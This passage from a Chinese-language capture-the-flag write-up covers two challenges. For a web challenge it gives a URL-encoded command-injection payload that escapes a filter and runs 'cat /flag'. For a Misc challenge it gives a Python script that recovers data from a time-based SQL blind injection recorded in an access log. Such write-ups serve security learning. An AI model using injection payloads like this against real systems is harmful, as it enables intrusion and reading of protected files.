 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01707c659d0eb038f7.png)

之后在compile会发现有过滤<br>
我们构造一下正则表达即可绕过过滤

```
0%0a);echo%20`cat%20/flag`;print(%27%27
```

得到flag

[![](https://p4.ssl.qhimg.com/t015d35097b53cdbb6e.png)](https://p4.ssl.qhimg.com/t015d35097b53cdbb6e.png)



## Misc

### <a class="reference-link" name="%E4%BD%A0%E4%BC%9A%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90%E5%90%97"></a>你会日志分析吗

sql盲注看着时间戳就可以

```
import base64
flag=""
with open('access.log','r') as file:
    ans = ""
    req = file.readlines()
#print(req[52:3821])
    req=req[51:]
    for i in range(len(req)):
        if "[11/Mar/2021" in req[i]:
            if abs(int(req[i-1].split('[11/Mar/2021')[1][7:9])+60*abs((int(req[i-1].split('[11/Mar/2021')[1][5])-int(req[i].split('[11/Mar/2021')[1][5])))- int(req[i].split('[11/Mar/2021')[1][7:9]))&gt;1.5 and abs(int(req[i-1].split('[11/Mar/2021')[1][7:9])+60*abs((int(req[i-1].split('[11/Mar/2021')[1][5])-int(req[i].split('[11/Mar/2021')[1][5])))- int(req[i].split('[11/Mar/2021')[1][7:9]))&lt;7 :
                tmp=req[i-1].split((')='))[1][0:3]
                if tmp[2]!=",":
                    tmp=tmp+","
                ans=ans+tmp
temp=""
print(ans)
for i in ans:
    if i==",":
        flag=flag+chr(int(temp))
        temp=""
    if i!=",":
        temp=temp+i
flag=flag.split('flag')[1]
print(base64.b64decode(flag))
```
